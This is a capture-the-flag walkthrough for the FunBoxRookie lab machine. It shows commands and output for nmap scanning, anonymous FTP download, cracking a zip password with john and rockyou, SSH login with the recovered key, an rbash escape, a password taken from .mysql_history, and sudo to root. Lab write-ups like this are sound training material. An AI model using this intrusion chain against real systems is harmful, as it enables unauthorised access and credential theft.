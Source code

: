 ```yaml
---
title : "FunBoxRookie- Walkthrough"
date : 21-10-2024 03:00:00
tags : [Offsec-Play, OSCP]
---
```



## Summary

This machine is exploited with an anonymous FTP server containing file **id_rsa** and then the disclosure of user credentials in a history file. It is escalated via open sudo that allows the user to run any command with elevated privileges.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```bash
kali@kali:~$ sudo nmap 192.168.120.138
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 13:07 EDT
Nmap scan report for 192.168.120.138
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

We can run a more detailed `nmap` scan with the `-sC` flag against the discovered ports:

```bash
kali@kali:~$ sudo nmap -p 21,22,80 192.168.120.138 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 13:09 EDT
Nmap scan report for 192.168.120.138
Host is up (0.030s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:52 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:58 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25 10:44 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 zlatan.zip
22/tcp open  ssh
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/logs/
|_http-title: Apache2 Ubuntu Default Page: It works
```

The FTP server listening on the default port allows for anonymous logins, and we see several zip files listed.

## Exploitation

### Anonymous FTP Server

Of the files shown in the scan, only file **tom.zip** will prove useful to us. Next, we can log in and retrieve it:

```bash
kali@kali:~$ ftp 192.168.120.138
Connected to 192.168.120.138.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.120.138]
Name (192.168.120.138:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.118.3 !
230-
230-The local time is: Wed Oct 14 17:11:13 2020
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get tom.zip
local: tom.zip remote: tom.zip
200 PORT command successful
150 Opening BINARY mode data connection for tom.zip (1477 bytes)
226 Transfer complete
1477 bytes received in 0.00 secs (28.1715 MB/s)
ftp> bye
221 Goodbye.
kali@kali:~$ 
```

However, if we try to open the archive, we will find that it is password-protected.

### Password Bruteforce

We can use `zip2john` to convert the encrypted archive to a hash file usable by `john`:

```bash
kali@kali:~$ zip2john tom.zip > tom.hash
ver 2.0 efh 5455 efh 7875 tom.zip/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=1299, decmplen=1675, crc=39C551E6
kali@kali:~$
```

We can now use `john` and the **rockyou.txt** wordlist to crack the password:

```bash
kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt tom.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)
1g 0:00:00:00 DONE (2020-10-14 13:17) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$
```

The cracker succeeds and reveals that the password is `iubire`. Using it, we can unlock the archive:

```bash
kali@kali:~$ unzip -P iubire tom.zip
Archive:  tom.zip
  inflating: id_rsa

kali@kali:~$
```

We have obtained a private SSH key file **id_rsa**.

### SSH

Since we have obtained the private key from the archive **tom.zip**, we can assume that the user is named `tom`. Next, we will set proper key file permissions and then SSH to the target:

```bash
kali@kali:~$ chmod 0600 id_rsa
kali@kali:~$
kali@kali:~$ ssh -o StrictHostKeyChecking=no -i id_rsa tom@192.168.120.138
...
tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
tom@funbox2:~$
```

### Escaping Restricted Shell

But, if try to change directory or any of the other restricted commands, we will find that our default shell upon login is `rbash`, which we must first escape:

```bash
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd ..
-rbash: cd: restricted
tom@funbox2:~$
```

There are many ways to do so, and we will choose one of the easiest ones (exiting the current shell and then reconnecting with the flag `-t "bash --noprofile"`):

```bash
tom@funbox2:~$ exit
logout
-rbash: /usr/bin/clear_console: restricted: cannot specify `/' in command names
Connection to 192.168.120.138 closed.
kali@kali:~$
kali@kali:~$ ssh -o StrictHostKeyChecking=no -i id_rsa tom@192.168.120.138 -t "bash --noprofile"
load pubkey "id_rsa": invalid format
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd ..
tom@funbox2:/home$
```

We are now able to traverse and enumerate the system further.

## Escalation

### User Password Recovery

Looking around the user's home directory, we find a MySQL history file:

```bash
tom@funbox2:/home$ cd ~
tom@funbox2:~$ ls -la
...
-rw------- 1 tom  tom   295 Jul 25 12:04 .mysql_history
...
tom@funbox2:~$
```

In this file, we see the history of several MySQL commands:

```bash
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
tom@funbox2:~$
```

The command `insert\040into\040support\040(tom,\040xx11yy22!);` looks very interesting as it contains string `xx11yy22!` that looks like a password.

### Sudo Escalation

Trying the password for the user to enumerate sudo privileges works, and we see that user `tom` is actually able to run any command with sudo, providing the password:

```bash
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
tom@funbox2:~$
```

We can easily use this to get a root shell:

```bash
tom@funbox2:~$ sudo su
root@funbox2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox2:/home/tom#
```

